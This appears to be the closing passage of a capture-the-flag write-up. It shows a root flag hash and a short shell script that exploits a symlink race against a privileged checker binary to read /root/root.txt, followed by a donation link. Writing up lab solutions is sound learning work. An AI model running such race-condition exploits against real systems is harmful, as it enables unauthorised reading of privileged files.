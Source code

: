 ```
077af1365ed28ef0cc56dc31065c09bf
```

U can also do it with a script:
```
#!/bin/sh

rm /tmp/.ayy/flag
touch /tmp/.ayy/flag
/usr/bin/checker /tmp/.ayy/flag &
sleep 0.5
ln -sf /root/root.txt /tmp/.ayy/flag
```

![](img/gotcha_script.png)

---

If u like my page u can always donate to my paypal [paypal.me/M4t35Z](https://paypal.me/M4t35Z)
